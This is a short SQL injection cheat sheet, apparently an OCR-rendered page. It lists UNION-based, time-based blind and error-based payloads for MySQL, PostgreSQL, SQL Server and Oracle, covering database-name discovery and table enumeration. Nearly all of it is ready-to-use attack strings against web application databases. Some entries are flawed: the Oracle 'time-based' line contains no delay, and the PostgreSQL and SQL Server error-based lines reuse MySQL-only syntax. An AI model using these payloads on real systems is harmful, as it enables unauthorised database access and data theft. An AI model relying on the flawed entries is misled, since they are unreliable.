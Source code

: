 ### Database Name
```sql
# MySQL
' UNION SELECT database()--

# PostgreSQL
' UNION SELECT current_database()--

# SQL Server
' UNION SELECT DB_NAME()--

# Oracle
' UNION SELECT ora_database_name FROM dual--
```

### Table Enumeration
```sql
# MySQL
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()--

# PostgreSQL
' UNION SELECT table_name FROM information_schema.tables--

# SQL Server
' UNION SELECT table_name FROM information_schema.tables--

# Oracle
' UNION SELECT table_name FROM user_tables--
```

## Advanced Techniques

### Time-Based Blind
```sql
# MySQL
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--

# PostgreSQL
' AND (SELECT pg_sleep(5))--

# SQL Server
' WAITFOR DELAY '00:00:05'--

# Oracle
' AND (SELECT COUNT(*) FROM all_tables WHERE ROWNUM=1 AND 1=(CASE WHEN (1=1) THEN 1 ELSE 0 END))--
```

### Error-Based Extraction
```sql
# MySQL
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--

# PostgreSQL
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT version()),0x3a,FLOOR(RAND()*2))x FROM information_schema.tables GROUP BY x)a)--

# SQL Server
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND()*2))x FROM information_schema.tables GROUP BY x)a)--
```
